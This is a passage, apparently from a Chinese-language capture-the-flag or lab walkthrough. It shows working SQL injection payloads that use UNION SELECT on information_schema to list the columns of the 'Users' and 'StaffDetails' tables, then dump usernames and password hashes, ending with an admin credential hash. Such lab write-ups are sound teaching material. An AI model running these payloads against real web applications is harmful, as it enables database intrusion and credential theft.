 发现两个表，一个`Users`值得关注

构造语句

```shell
tom' union select concat(column_name),version(),3,user(),5,6 from information_schema.columns where table_name='Users'#

tom' union select concat(column_name),version(),3,user(),5,6 from information_schema.columns where table_name='StaffDetails'#
```

![](./pic-9/10.jpg)

直接通过查询获取对应元组的数据

```shell
tom' union select concat(Username,'|',Password),version(),3,user(),5,6 from Users#
```

![](./pic-9/11.jpg)

获取到用户名`admin`和密码`856f5de590ef37314e7c3bdf6f8a66dc`
